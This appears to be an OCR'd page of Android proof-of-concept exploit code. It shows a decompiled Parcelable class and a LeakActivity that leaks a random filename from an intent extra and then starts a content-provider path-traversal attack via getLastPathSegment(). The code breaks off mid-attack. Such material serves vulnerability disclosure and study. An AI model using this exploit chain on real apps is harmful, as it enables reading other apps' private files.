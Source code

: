 - f2.a

```java
package f2;

import android.os.Parcel;
import android.os.Parcelable;

public class a implements Parcelable {
    public int c;
    public String d;
    public String e;
    public static final Parcelable.Creator<a> CREATOR;

    static {
        CREATOR = new Creator<a>() {
            @Override
            public a createFromParcel(Parcel in) {
                return new a(in);
            }

            @Override
            public a[] newArray(int i) {
                return new a[0];
            }
        };
    }
...

    public String getD() {
        return d;
    }

    @Override
    public void writeToParcel(Parcel parcel, int i) {
        parcel.writeInt(this.c);
        parcel.writeString(this.d);
        parcel.writeString(this.e);
    }

}
```
- LeakActivity.java

```java
import f2.a;

public class LeakActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_leak);

        if(getIntent().hasExtra("debug")) {
            // LEAK
            a debg = getIntent().getParcelableExtra("debug");
            String fnname = debg.getD();
            Log.d("poc", "STEP 1: Leak random filename - " + debg.getD());

            // ACCESS CONTENT PROVIDER
            Intent nxt = new Intent();

            // PATH TRAVERSAL getLastPathSegment()
```
